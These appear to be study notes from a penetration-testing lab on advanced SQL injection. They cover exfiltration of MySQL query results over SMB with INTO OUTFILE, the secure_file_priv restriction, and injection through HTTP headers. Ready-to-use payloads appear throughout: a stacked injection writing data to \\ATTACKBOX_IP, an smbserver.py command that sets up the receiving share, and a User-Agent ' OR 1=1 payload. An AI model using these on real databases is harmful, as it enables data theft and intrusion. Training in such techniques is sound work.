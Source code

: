 **SMB Exfiltration**

SMB exfiltration involves writing query results to an SMB share on an external server. This technique is particularly effective in Windows environments but can also be configured in Linux systems with the right setup. an example query would look like `SELECT sensitive_data INTO OUTFILE '\\\\10.10.162.175\\logs\\out.txt';`.

This is fully supported as Windows natively supports SMB/UNC paths. Linux (Ubuntu): While direct UNC paths are more native to Windows, SMB shares can be mounted and accessed in Linux using tools like `smbclient` or by mounting the share to a local directory. Directly using UNC paths in SQL queries may require additional setup or scripts to facilitate the interaction.



**Important Consideration**

It is important to note that the MySQL system variable `secure_file_priv` may be set. When set, this variable contains a directory pathname, and MySQL will only allow files to be written to this specified directory. This security measure helps mitigate the risk of unauthorised file operations. 

- **When secure_file_priv is Set**: MySQL will restrict file operations such as **INTO OUTFILE** to the specified directory. This means attackers can only write files to this directory, limiting their ability to exfiltrate data to arbitrary locations.
- **When secure_file_priv is Empty**: If the `secure_file_priv` variable is empty, MySQL does not impose any directory restrictions, allowing files to be written to any directory accessible by the MySQL server process. This configuration poses a higher risk as it provides more flexibility for attackers.

Attackers typically do not have direct access to check the value of the secure_file_priv variable. As a result, they must rely on hit-and-trial methods to determine if and where they can write files, testing various paths to see if file operations succeed.  

**Preparing**

```php
1'; SELECT @@version INTO OUTFILE '\\\\ATTACKBOX_IP\\logs\\out.txt'; --
```
@@basedir <- good variable to read too

sudo smbserver.py -smb2support -comment "My Logs Server" -debug logs ./tmp

*open port 445 don't forget*




# advanced sql injection

Advanced SQL injection involves a range of sophisticated methods that go beyond basic attacks. Here are a few important advanced techniques that pentesters should be aware of:

HTTP Header Injection

HTTP headers can carry user input, which might be used in SQL queries on the server side. ![user-agent injection](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1716922785793)If these inputs are not sanitised, it can lead to SQL injection. The technique involves manipulating HTTP headers (like **User-Agent**, **Referer**, or **X-Forwarded-For**) to inject SQL commands. The server might log these headers or use them in SQL queries. For example, a malicious User-Agent header would look like `User-Agent: ' OR 1=1; --`. If the server includes the User-Agent header in an SQL query without sanitising it, it can result in SQL injection.
